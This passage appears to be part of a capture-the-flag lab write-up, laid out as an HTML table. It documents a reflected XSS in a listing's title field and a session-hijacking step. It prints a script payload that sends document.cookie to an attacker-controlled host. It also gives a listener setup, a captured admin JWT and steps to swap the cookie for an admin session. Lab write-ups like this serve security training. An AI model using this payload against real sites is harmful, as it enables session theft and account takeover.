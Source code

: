<tr class="header">
<th><blockquote>
<p> </p>
</blockquote></th>
<th><blockquote>
<p>CVE</p>
</blockquote></th>
<th>PoC</th>
<th>Exploit</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Vuln#1</td>
<td>XSS Reflection in Title Parameter</td>
<td><ol type="1">
<li><blockquote>
<p>Create Login</p>
</blockquote></li>
<li><blockquote>
<p>Go to New Listing</p>
</blockquote></li>
<li><blockquote>
<p>Create POST Request with body: title=&lt;script&gt;new Image().src="http://10.8.33.103:8000/bogus.php?output="+document.cookie;&lt;/script&gt;&amp;description=t</p>
</blockquote></li>
<li><blockquote>
<p>Setup HTTP Server at attacker side with $python -m SimpleHTTPServer</p>
</blockquote></li>
<li><blockquote>
<p>Abuse the report listing to admins function</p>
</blockquote></li>
<li><blockquote>
<p>Wait until admin clicks on link and triggers the fake request</p>
</blockquote></li>
<li><blockquote>
<p>REQUEST: 10.10.25.186 - - [11/Nov/2020 23:33:28] "GET /bogus.php?output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUxMzQwMDl9.xHb7HrszWJcb9lHRwDRlgq_ZfiAs7CFQp2b6BkNPZBE HTTP/1.1" 404 -</p>
</blockquote></li>
</ol>
<p>Replace the token in your cookies to get an admin session</p></td>
<td>n.E</td>
</tr>
<tr class="even">
<td>Vuln#2</td>
<td>Session Hijacking</td>
<td>Abusing intended report listing to admins feature. Details in Vuln#1</td>
<td>n.E</td>
</tr>
</tbody>
</table></td>
<td>Found Flag#1</td>
</tr>
<tr class="even">
<td><p>/admin</p>
<p>(only valid if logged in as admin)</p></td>
<td><table>
<thead>
<tr class="header">
<th><blockquote>
<p> </p>
</blockquote></th>
<th><blockquote>